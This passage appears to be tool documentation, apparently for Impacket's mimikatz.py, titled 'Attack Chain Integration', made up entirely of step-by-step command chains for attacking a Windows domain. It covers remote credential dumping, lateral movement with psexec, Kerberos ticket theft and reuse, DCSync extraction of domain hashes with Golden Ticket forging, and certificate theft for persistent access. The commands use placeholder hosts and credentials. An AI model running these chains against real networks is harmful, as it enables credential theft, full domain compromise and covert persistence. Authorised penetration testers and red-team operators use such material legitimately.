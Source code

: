 ## Attack Chain Integration

### Remote Credential Extraction
```bash
# Step 1: Gain initial access and deploy mimikatz RPC server
# (via PSExec, WMI, or other method)

# Step 2: Connect remotely and extract credentials
python3 mimikatz.py domain.local/admin:password@target.domain.local
# In shell: sekurlsa::logonpasswords

# Step 3: Use extracted credentials for lateral movement
python3 psexec.py domain.local/extracteduser:extractedpass@next-target.domain.local
```

### Kerberos Ticket Extraction and Injection
```bash
# Step 1: Connect to compromised system
python3 mimikatz.py domain.local/admin:password@dc.domain.local

# Step 2: Extract Kerberos tickets
# In shell: sekurlsa::tickets /export

# Step 3: Convert and use tickets
python3 ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
python3 psexec.py -k -no-pass domain.local/user@target.domain.local
```

### Domain Controller Compromise
```bash
# Step 1: Connect to domain controller
python3 mimikatz.py domain.local/admin:password@dc.domain.local

# Step 2: Extract NTDS database
# In shell: lsadump::dcsync /domain:domain.local /all

# Step 3: Use extracted hashes for Golden Ticket
python3 ticketer.py -nthash [krbtgt_hash] -domain-sid S-1-5-21-xxx -domain domain.local administrator
```

### Certificate Extraction for Persistence
```bash
# Step 1: Connect to target with certificate services
python3 mimikatz.py domain.local/admin:password@ca.domain.local

# Step 2: Extract certificates
# In shell: crypto::capi
# In shell: crypto::cng

# Step 3: Use certificates for authentication
# Install extracted certificates for persistent access
```
